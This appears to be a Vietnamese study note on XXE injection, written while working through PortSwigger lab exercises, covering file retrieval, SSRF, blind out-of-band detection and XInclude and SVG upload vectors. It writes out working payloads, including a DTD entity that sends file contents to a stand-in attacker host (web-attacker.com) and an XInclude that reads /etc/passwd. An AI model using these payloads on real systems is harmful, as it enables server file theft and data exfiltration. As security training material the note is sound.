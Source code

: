 ## **_1. Định nghĩa_**

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ab5147eb-1cff-407a-963b-01afca163025)

XML external entity injection (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp máy chủ ứng dụng và tương tác với bất kỳ hệ thống back-end hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

## **_2. Cách phát sinh_**
Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

## **_3. How to test_**

## [**_4. Khai thác_**](part1.md)
- Để truy xuất tệp (lab 1)
  - sửa đổi XML theo 2 cách
    - Introduce (or edit) `DOCTYPE` xác định 1 thực thể bên ngoài có chứa đường dẫn tới tệp
    - Chỉnh sửa giá trị dữ liệu trong XML được trả về trong respond để sử dụng thực thể bên ngoài đã xác định

- Để thực hiện các cuộc tấn công SSRF (lab 2)
  - cần xác định thực thể XML bên ngoài bằng cách sử dụng URL mà bạn muốn nhắm mục tiêu và sử dụng thực thể được xác định trong giá trị dữ liệu

## [**_5. Blind XXE_**](part2.md)
- _**Blind XXE**_ là XXEi nhưng không trả về giá trị dữ liệu trong response
- Phát hiện bằng kỹ thuật OOB (lab 3, 4)
  - tương tự như XXE SSRF, URL mục tiêu sẽ là URL mà ta kiểm soát
  - khi bị block, do một số xác thực đầu vào hoặc phân tích cú pháp XML đang sử dụng, hãy sử dụng tham số XML thay thế
    - đầu tiên là khai báo: `<!ENTITY % myparameterentity "my parameter entity value" >`
    - thứ hai là tham chiếu bằng cách sử dụng `%`: `%myparameterentity;`
    - VD: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
- Khai thác để lọc dữ liệu OOB (lab 5)
  - file độc hại trích xuất nội dung file đã cho
    - Định nghĩa thực thể `file` chứa nội dung file đã cho: `<!ENTITY % file SYSTEM "file:///file_đã_cho">`
    - Định nghĩa thực thể `eval` chứa thực thể khác gọi là `exfiltrate` (thực thể sẽ được đánh giá bằng cách tạo 1 yêu  cầu HTTP tới máy chủ web tấn công chứa giá trị của `file` trong chuỗi truy vấn URL: `<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">`
    - Sử dụng `eval` thực hiện khái báo `exfiltrate`: `%eval;`
    - Sử dụng `exfiltrate` để giá trị của nó được đánh giá: `%exfiltrate;`
  - Cuối cùng, tấn công gửi XXE: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>`

- Khai thác để truy xuất dữ liệu qua các thông báo lỗi (lab 6)
  - Định nghĩa `file` chứa nội dung của file đã cho: `<!ENTITY % file SYSTEM "file:///file_đã_cho">`
  - Định nghĩa `eval` chứa `error` (được đánh giá bằng cách tải 1 tệp không tồn tại có chứa giá trị của `file`): `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
    
- lab 7 EXPERT

## [**_6. Tìm bề mặt tấn công ẩn để thực hiện XXEi_**](part3.md)
- Tấn công XInclude (lab 8)
  - XInclude là một phần của đặc tả XML cho phép xây dựng một tài liệu XML từ các tài liệu phụ. Bạn có thể thực hiện một cuộc tấn công XInclude bên trong bất kỳ giá trị dữ liệu nào trong tài liệu XML, do đó cuộc tấn công có thể được thực hiện trong các tình huống mà bạn chỉ kiểm soát một mục dữ liệu duy nhất được đặt vào tài liệu XML phía máy chủ.
    
  - tham chiếu tên và cung cấp đường dẫn đến tệp muốn đưa vào:

      > `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
      >
      > `<xi:include parse="text" href="file:///etc/passwd"/></foo>`
      
- Thông qua upload file (lab 9)
  - Một số ứng dụng cho phép người dùng tải lên các tệp sau đó được xử lý phía máy chủ. Một số định dạng tệp phổ biến sử dụng XML hoặc chứa các thành phần phụ XML. Ví dụ về các định dạng dựa trên XML là các định dạng tài liệu văn phòng như DOCX và các định dạng hình ảnh như SVG.
  - Ví dụ: một ứng dụng có thể cho phép người dùng tải hình ảnh lên và xử lý hoặc xác thực những hình ảnh này trên máy chủ sau khi chúng được tải lên. Ngay cả khi ứng dụng mong muốn nhận được định dạng như PNG hoặc JPEG, thư viện xử lý hình ảnh đang được sử dụng có thể hỗ trợ hình ảnh SVG. Vì định dạng SVG sử dụng XML nên kẻ tấn công có thể gửi hình ảnh SVG độc hại và do đó tiếp cận bề mặt tấn công ẩn để tìm lỗ hổng XXE.

- Thông qua chỉnh sửa Content-type
